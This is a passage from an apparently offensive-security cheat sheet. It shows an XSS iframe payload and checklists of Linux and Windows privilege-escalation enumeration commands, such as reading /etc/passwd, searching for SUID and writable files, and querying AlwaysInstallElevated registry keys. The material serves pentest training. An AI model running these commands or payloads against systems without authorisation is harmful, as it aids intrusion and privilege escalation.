 ```html
<iframe src="javascript:alert('XSS')">
```

## 🔼 Privilege Escalation

### Linux Privilege Escalation

```
┌─────────────────────────────────────────────────────────────────┐
│                  LINUX PRIVESC CHECKLIST                       │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│ 🔍 SYSTEM INFORMATION                                           │
│ ─────────────────────                                           │
│ uname -a                    # Kernel version                    │
│ cat /etc/issue              # OS version                        │
│ cat /etc/passwd             # Users                             │
│ cat /etc/group              # Groups                            │
│                                                                 │
│ 🔑 PERMISSIONS & SUDO                                           │
│ ────────────────────                                            │
│ sudo -l                     # Sudo permissions                  │
│ find / -perm -4000 2>/dev/null  # SUID files                   │
│ find / -perm -2000 2>/dev/null  # SGID files                   │
│ find / -writable 2>/dev/null    # Writable files               │
│                                                                 │
│ 🌐 NETWORK & SERVICES                                           │
│ ────────────────────                                            │
│ netstat -antup              # Network connections              │
│ ps aux                      # Running processes                │
│ crontab -l                  # Cron jobs                        │
│ cat /etc/crontab            # System cron                      │
│                                                                 │
│ 📁 INTERESTING FILES                                            │
│ ───────────────                                                 │
│ find / -name "*.conf" 2>/dev/null  # Config files              │
│ find / -name "*.log" 2>/dev/null   # Log files                 │
│ find /home -name ".*" 2>/dev/null  # Hidden files              │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

### Windows Privilege Escalation

```cmd
REM SYSTEM INFORMATION
systeminfo
whoami /all
net users
net localgroup administrators

REM SERVICES AND PROCESSES  
sc query
tasklist /svc
wmic service list brief

REM REGISTRY CHECKS
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\
reg query HKLM\SYSTEM\CurrentControlSet\Services\

REM FILE PERMISSIONS
icacls "C:\Program Files"
```